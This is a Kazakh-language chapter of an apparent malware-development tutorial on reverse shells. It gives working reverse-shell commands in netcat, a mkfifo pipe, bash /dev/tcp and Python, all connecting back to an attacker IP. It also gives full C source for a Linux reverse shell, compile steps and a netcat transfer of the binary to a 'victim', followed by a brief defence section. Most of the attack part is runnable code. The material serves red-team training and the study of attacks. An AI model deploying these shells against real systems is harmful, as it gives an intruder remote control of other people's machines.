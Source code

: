 \newpage
\subsection{3. кері шелл - reverse shells}

﷽

![reverse shells](./images/4/2021-09-16_11-26.png){height=400px}    

Ең алдымен, біз зиянды бағдарлама әзірлеуде маңызды рөл атқаратын кері шелл (reverse shell) ұғымын қарастырамыз, және практикалық мысалдарды талқылаймыз.      

### кері шелл (reverse shell) дегеніміз не??

Кері шелл немесе connect-back shell деп те аталады - бұл мақсатты құрылғыдан шабуылдаушы машинаға қайта қосылу арқылы енгізілетін қашықтағы шелл. Осылайша, шабуылдаушы машинада мақсатты шелл пайда болады. Бұл көбінесе эксплуатация процесінде қашықтағы "құрбан" машинаны басқару үшін қолданылады.     

![rev shells](./images/4/shells.png)

Кері шелл жиі сыртқа шығатын жалпы порттарды пайдаланады, мысалы:
`80, 443, 8080` және т.б.     

Кері шелл әдетте мақсатты құрылғы брандмауэр арқылы белгілі бір порттан кіретін қосылымдарды бұғаттаған кезде қолданылады. Бұл шектеуді айналып өту үшін red team және пентестерлер кері шеллдерді қолданады.     

Бірақ мұнда бір мәселе бар. Бұл шабуылдаушының басқару серверін ашып береді және оны мақсатты желінің қауіпсіздік мониторингі анықтап қоюы мүмкін.     

Кері шелл алу үшін үш қадам бар.     
Біріншіден, шабуылдаушы мақсатты жүйедегі немесе желідегі осалдықты
пайдаланып, кодты орындауға мүмкіндік алады.     
Содан кейін ол өзінің машинасында тыңдаушы (listener) іске қосады.     
Соңында ол осал жүйеге кері шелл енгізіп, осалдықты пайдаланады.    

Тағы бір жайт. Симуляция немесе лабораторияда емес, нағыз шынайы кибершабуылдарда кері шелл әлеуметтік инженерия арқылы да алынады. Мысалы, фишингтік хат немесе зиянды вебсайт арқылы жергілікті жұмыс станциясына орнатылған зиянды бағдарлама командалық серверге қосылым ашып, хакерлерге кері шеллға қосылу мүмкіндігін бере алады.      

![social engineering](./images/4/shells2.png){width="80%"}

Бұл посттың мақсаты - мақсатты хосттағы немесе желідегі осалдықты эксплуатациялау емес, керісінше кодты орындауға мүмкіндік беретін осалдық табу идеясын көрсету.    

Құрбан жүйесінде орнатылған операциялық жүйеге және жұмыс істеп тұрған сервистерге байланысты кері шелл әртүрлі болуы мүмкін: `php, python, jsp` және т.б.     

***

### тыңдаушы (listener)

Қарапайымдылық үшін бұл мысалда құрбан кез келген порт арқылы шығыс (outcome) қосылым жасауға рұқсат береді (iptables әдепкі ережесі). Біздің жағдайда тыңдаушы порт ретінде `4444`-ті пайдаланамыз. Әрине, оны қалағаныңызша басқа портқа өзгертуге болады. Тыңдаушы `TCP/UDP` қосылымдарын аша алатын кез келген бағдарлама/утилита болуы мүмкін. Көп жағдайда мен `nc` немесе `netcat` қолданамын.     

```bash
nc -lvp 4444
```

Мұнда `-l` тыңдау, `-v` егжей-тегжейлі, `-p` барлық интерфейсте `4444`
порт. Сондай-ақ DNS орнына тек `IP` қолдану үшін `-n` параметрін қосуға
болады.     

![listener](./images/4/2021-09-11_17-59.png)    

***

### кері шеллді іске қосу (мысалдар)

Практикалық эксперименттің қарапайымдылығы болу үшін, мысалдағы мақсат "құрбан" - linux машинасы болсын.    

**1. netcat**   

іске қосайық:    

```bash
nc -e /bin/sh 10.9.1.6 4444
```

мұндағы `10.9.1.6` - шабуылдаушы машинасының IP-адресі, ал `4444` - тыңдаушы порт.   

![netcat](./images/4/2021-09-11_18-04.png){width="80%"}

**2. netcat (-e параметрінсіз)**    

Жаңа linux операциялық жүйелерінде әдетте `GAPING_SECURITY_HOLE` өшірілген классикалық netcat орнатылады, сондықтан онда `-e` опциясы жоқ.      

Бұл жағдайда құрбан машинада келесі команда арқылы іске қосылады:     

```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![netcat without e](./images/4/2021-09-11_18-23.png){width="80%"}

Мұнда алдымен `mkfifo` командасымен `p` атты атаулы канал (FIFO) жасадым. Бұл канал шелл енгізу/шығаруды бағыттау үшін қолданылады. Мен оны `/tmp` ішінде жасадым, себебі кез келген қолданушы (linux операциялық жүйесінде) ол жерге жаза алады.     

**3. bash**   
Бұл ескі debian-операциялық жүйесіне негізделген операцияқ жүйелерде жұмыс істемейді.   
іске қосу:    

```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

![bash rev shell](./images/4/2021-09-11_18-12.png){width="80%"}

**4. python**

Жартылай интерактивті шелл жасау үшін python мына команданы қолданыңыз:

```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![python rev shell](./images/4/2021-09-11_18-36.png){width="80%"}

Көбірек мысалдар: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

***

### C тілінде кері шелл жасау

Маған ұнайтын бөлік. Себебі мен бағдарламалау саласынан келгендіктен, кейде "дөңгелекті қайта ойлап табуды" жақсы көремін. Бұл арқылы жаңа нәрселерді үйренуге болады.    

Linux (мақсатты машина) үшін кері шелл жазамыз.       

`shell.c` файлын құрыңыз:     

```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
	const char* ip = "10.9.1.6";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

Компиляциялау:     

```bash
gcc -o shell shell.c -w
```

![c rev shell compile](./images/4/2021-09-11_18-53.png){width="80%"}

*32-биттік linux үшін:* `gcc -o shell -m32 shell.c -w`     

Файлды құрбан машинаға тасымалдау керек. Бұл эксплуатациядан кейінгі
маңызды қадамдардың бірі.     

Хакердің "швейцариялық пышағы" болып саналатын `netcat` бағдарламасын қолданамыз.     

құрбан машинада:

```bash
nc -lvp 4444 > shell
```

шабуылдаушы машинада:    

```bash
nc 10.9.1.19 4444 -w 3 < shell
```

![file transfer via netcat](./images/4/2021-09-11_19-09.png){width="80%"}

тексеру:    

```bash
./shell
```

![run](./images/4/2021-09-11_19-41.png){width="80%"}

[Github-тағы код](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

### қорғаныс шаралары

Өкінішке орай, кері шеллдерді толықтай бұғаттау мүмкін емес. Егер сіз әдейі оларды қашықтықтан әкімшілеу үшін қолданбасаңыз, кез келген кері шелл қосылымдары зиянды болуы ықтимал. Эксплуатация қаупін азайту үшін тек белгілі IP-адрестер мен порттарға рұқсат беріп, қалғандарын жауып қоюға болады. Бұл үшін sandbox немесе контейнер қолдану ұсынылады.     